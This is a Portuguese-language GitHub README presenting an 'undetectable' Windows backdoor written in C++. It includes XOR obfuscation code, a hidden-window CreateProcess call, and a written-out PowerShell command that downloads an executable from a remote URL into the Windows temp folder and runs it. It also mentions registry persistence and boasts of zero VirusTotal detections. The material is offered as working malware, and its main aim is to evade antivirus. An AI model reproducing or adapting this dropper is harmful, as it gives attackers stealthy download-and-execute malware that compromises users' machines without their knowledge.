 # Backdoor-Indetectavel
A função do backdoor é fazer download de um executável via powershell direto na pasta e temp, em seguida executar o arquivo, tudo usando uma função onde a janela do console fica no modo em que não seja visível para o usuário. Esse método é comum em criadores de malware, onde muitos usam métodos mais complexos para evitar a detecção, como programar um arquivo onde ele fica dormindo até alguém pressionar uma tecla, ou até atingir um certo tempo, etc..  

### Criptografia Xor
A matemática da criptografia xor que fiz foi bem simples, onde a chave da criptação é o tamanho da string vezes 2 divido por 100, fazendo com que a chave seja a própia string deseja.
```c++
void Decrypter(char CriptXor[]) {  
    int QuantidadeString = strlen(CriptXor); // Determina o tamanho da string.
    for (int i = 0; i < QuantidadeString; i++){ 
        CriptXor[i] = CriptXor[i] ^ (QuantidadeString*2/100); // A chave da criptografia é o tamanho da string * 2 / 100.
    } 
} 
```
### CreateProcess
Essa parte do código cria o processo powershell usando API do windows, abrindo o processo onde os seguintes comando são coordenados para fazer, fazer download do executável MrQuerino.exe via "wget", alocando na pasta temp com o nome de WelCome.exe e na sequência executando.


> powershell.exe wget https://github.com/andreyquerino/Backdoor-Indetectavel/blob/main/MrQuerino.exe?raw=true -o C:\\windows\\temp\\WelCome.exe;start C:\\windows\\temp\\WelCome.exe


```c++
void Run() {
   char processo[] = "sltfqpkfoo-f{f#tdfw#kwwsp9,,djwkva-`ln,bmgqfzrvfqjml,Ab`hgllq.Jmgfwf`wbufo,aola,nbjm,NqRvfqjml-f{f<qbt>wqvf#.l#@9__tjmgltp__wfns__Tfo@lnf-f{f8pwbqw#@9__tjmgltp__wfns__Tfo@lnf-f{f";
   Decrypter(processo); //Função para decriptar
   STARTUPINFO pinfo; //contém detalhes de como todas as coisas devem ser cuidadas antes do início do processo 
   PROCESS_INFORMATION info; //contém detalhes sobre o novo processo, processo pai, seu processo filho, outros threads e como ele funcionará 
   memset(&pinfo, 0, sizeof(pinfo));
   CreateProcess(NULL, processo, NULL, NULL, TRUE, CREATE_NO_WINDOW, NULL, NULL, &pinfo, &info); //API CreateProcess que cria um processo powershell.exe usando a variável acima e canaliza a entrada, saída e erro para o HANDLE usando o & info criado acima
}
```
### Persistência
Como bônus tive liberdade criar um registro de persistência no windows onde toda vez que iniciar o sistema abra o executável.

### Virus Total 
Até a data desta postam, não teve detecção no virus total.
https://www.virustotal.com/gui/file/8ff653ded39076b02dea1ab8ec367afc16d2b8e8e5f6c7e92b1a8572f2147748/detection
